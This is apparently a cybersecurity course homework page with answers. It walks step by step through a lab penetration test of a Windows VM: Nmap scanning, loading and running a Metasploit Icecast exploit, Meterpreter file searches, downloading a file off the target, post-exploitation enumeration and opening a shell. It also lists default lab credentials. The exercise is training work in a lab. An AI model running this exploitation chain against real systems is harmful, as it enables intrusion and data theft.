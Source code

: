 # Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.


- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.
- The deliverable for this engagement will be in the form of a report labeled Report.docx.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
  - Then click Start Server.




### Reminders


- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.


### Scope


- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.


- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.


- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.


- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment
For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux root:toor

- Target machine: DVW10 IEUser:Passw0rd!


**NOTE:** You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
- The icecast application will launch.
- Click on Start Server.
- You are now ready to being the activity.


### Deliverable
Once you complete this assignment, submit your findings in the following document:

[Report.docx]()


### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

  - Run the Nmap command that performs a service and version scan against the target.
  
    > Answer: nmap -sV 192.168.0.20

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  - Run the SearchSploit commands to show available Icecast exploits.

    > Answer: searchsploit icecast

3. Now that we know which exploits are available to us, let's start Metasploit:
  - Run the command that starts Metasploit:

    > Answer: msfconsole

4. Search for the Icecast module and load it for use.
  - Run the command to search for the Icecast module:

    > Answer: search icecast


  - Run the command to use the Icecast module:
   **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

    > Answer: use 0




5. Set the RHOST to the target machine.


  - Run the command that sets the RHOST:

    > Answer: set RHOST 192.168.0.20




6. Run the Icecast exploit.
  - Run the command that runs the Icecast exploit.

    > Answer: exploit


  - Run the command that performs a search for the secretfile.txt on the target.

    > Answer: search -f *secretfile.txt

7. You should now have a Meterpreter session open.


  - Run the command to performs a search for the recipe.txt on the target:

    > Answer: search -f *recipe.txt


  - **Bonus:** Run the command that exfiltrates the recipe*.txt file:

    > Answer: download C:\Users\IEUser\Documents\Drinks.recipe.txt




8. You can also use Meterpreter's local exploit suggester to find possible exploits.


  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users
B. Open a Meterpreter shell.

  > Answer: shell
C. Run the command that displays the target's computer system information:

  > Answer: sysinfo
